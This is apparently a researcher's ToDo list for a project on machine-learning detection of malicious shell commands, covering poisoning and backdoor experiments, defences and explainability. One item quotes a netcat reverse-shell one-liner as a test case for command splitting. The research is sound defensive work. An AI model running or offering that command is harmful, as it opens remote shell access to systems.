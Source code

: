 # ToDo

1. Adversarial robustness tests:
   1. Poisoning:
      1. ~~pollution: ~~code~~ (`adversarial_poisoning_pollution.py`) | ~~run~~
      2. ~~backdoor (sparse region): ~~code~~ (`adversarial_poisoning_bacdoor.py`) | ~~run~~

         > NOTE: If results for some runs are anomalous -- delete files and rerun. This might be because some script runs blue-screen'ed my laptop, and best model from training was interrupted might actually be not optimal.

      3. ~~Extend experiments to XGBoost~~

   2. Signature baseline -- stay robust? Worth showing.
   3. Defend:
      1. ~~adversarial training (draw scheme)~~
      2. hybrid approach: ML + signatures?

2. Command splitting, e.g.: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc` to passing through ML model as separate commands?
   > Battista: "Used in Certification schemes." <-- ??

3. Explainability tests (???):
   1. Integrated gradients TODO
   2. Attention weights from transformer TODO
